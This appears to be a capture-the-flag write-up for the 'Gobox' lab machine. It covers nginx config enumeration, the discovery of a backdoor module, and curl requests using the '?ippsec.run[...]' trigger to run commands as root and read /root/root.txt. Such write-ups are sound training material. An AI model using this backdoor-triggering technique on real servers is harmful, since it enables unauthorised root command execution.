 # # `Enumeration` -

```bash
www-data@gobox:~/html$ cd /etc/nginx/sites-enabled/
www-data@gobox:/etc/nginx/sites-enabled$ ls
default
www-data@gobox:/etc/nginx/sites-enabled$ cat default
<Snip>
server {                                                                                                                                
        listen 4566 default_server;                                                                                                     
                                                                                                                                        
                                                                                                                                        
        root /var/www/html;                                                                                                             
                                                                                                                                        
        index index.html index.htm index.nginx-debian.html;                                                                             
                                                                                                                                        
        server_name _;                                                                                                                  


        location / {
                if ($http_authorization !~ "(.*)SXBwc2VjIFdhcyBIZXJlIC0tIFVsdGltYXRlIEhhY2tpbmcgQ2hhbXBpb25zaGlwIC0gSGFja1RoZUJveCAtIEhh
Y2tpbmdFc3BvcnRz(.*)") {
                    return 403;
                }
                proxy_pass http://127.0.0.1:9000;
        }

}
server {
        listen 80;
        root /opt/website;
        index index.php;

        location ~ [^/]\.php(/|$) {
            fastcgi_index index.php;
            fastcgi_param REQUEST_METHOD $request_method;
            fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
            fastcgi_param QUERY_STRING $query_string;


            fastcgi_pass unix:/tmp/php-fpm.sock;
        }
}
server {
        listen 8080;
        add_header X-Forwarded-Server golang;
        location / {
                proxy_pass http://127.0.0.1:9001;
        }
}

server {
        listen 127.0.0.1:8000;
        location / {
                command on;
        }
}
```

The following from above looks odd -

```bash
server {
        listen 127.0.0.1:8000;
        location / {
                command on;
        }
}
```

Looking into the modules -

```bash
www-data@gobox:/etc/nginx$ cd modules-enabled/
www-data@gobox:/etc/nginx/modules-enabled$ ls
50-backdoor.conf               50-mod-http-xslt-filter.conf  50-mod-stream.conf
50-mod-http-image-filter.conf  50-mod-mail.conf
```

`50-backdoor.conf` is pretty suspicious!

```bash
www-data@gobox:/etc/nginx/modules-enabled$ cat 50-backdoor.conf 
load_module modules/ngx_http_execute_module.so;
```

Googling for “ngx_http_execute_module.so”, the first result is [this GitHub](https://github.com/limithit/NginxExecute):

# # `Exploit` -

According to the docs, I should be able to trigger this backdoor by making a request to the server with this enabled with the parameter `?system.run[command]`.

Since the server is only listening on localhost, I’ll just use `curl` from my shell. It doesn’t work:

```bash
www-data@gobox:/etc/nginx/modules-enabled$ curl http://127.0.0.1:8000?system.run[id]
curl: (52) Empty reply from server
```

Just running strings on the binary is enough to figure out the new command word:

```bash
www-data@gobox:/usr/share/nginx/modules$ strings ngx_http_execute_module.so | grep run
ippsec.run
```

# # `Root`-

```bash
www-data@gobox:/usr/share/nginx/modules$ curl http://127.0.0.1:8000?ippsec.run[id]
uid=0(root) gid=0(root) groups=0(root)
www-data@gobox:/usr/share/nginx/modules$ curl -g "http://127.0.0.1:8000/?ippsec.run[ls /root]"
iptables.sh
root.txt
snap
www-data@gobox:/usr/share/nginx/modules$ curl -g "http://127.0.0.1:8000/?ippsec.run[cat /root/root.txt]"
81d35170fb50fe21ed42cbda4a45913e
```